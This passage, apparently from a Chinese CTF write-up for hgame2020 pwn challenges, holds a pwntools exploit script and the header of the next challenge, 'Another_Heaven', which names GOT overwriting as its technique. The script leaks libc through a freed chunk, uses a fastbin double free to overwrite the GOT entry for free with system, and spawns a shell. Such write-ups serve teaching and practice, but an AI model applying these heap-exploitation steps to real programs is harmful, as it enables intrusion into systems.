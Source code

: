   ```python
    sla('size?\n',str(size))
    sla('content:',cont)

def delete(index):
    sla(':','2')
    sla('index?\n',str(index))

def show(index):
    sla(':','3')
    sla('index?\n',str(index))
    ru('content:')
    return ru('-----------------')

# info
# gadget
# elf, libc
add(0x80)
add(0x58)
add(0x58)
add(0x58,'/bin/sh\x00')

delete(0)
data = show(0)[:-1].ljust(8,'\0')
log.hexdump(data)
libcbase = u64(data) - libc.sym['__malloc_hook'] - 0x68
info_addr('libcbase',libcbase)

delete(1)
delete(2)
delete(1)
debug()
add(0x58,p64(0x601ffa)) # got[free]-14-16
add(0x58)
add(0x58)
add(0x58,'aaaaaaaaaaaaaa'+p64(libcbase+libc.sym['system'])[:6])

delete(3)

p.interactive()
  ```

 

### Another_Heaven

 - 题目描述：永遠と呼びたい 君に 出逢えた ことだけは（什么鬼...）
 - 题目地址：[Another_Heaven](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week2_3/Another_Heaven)
 - 考察点：GOT改写
 - 难度：简单
 - 分值：200
 - 完成人数：35

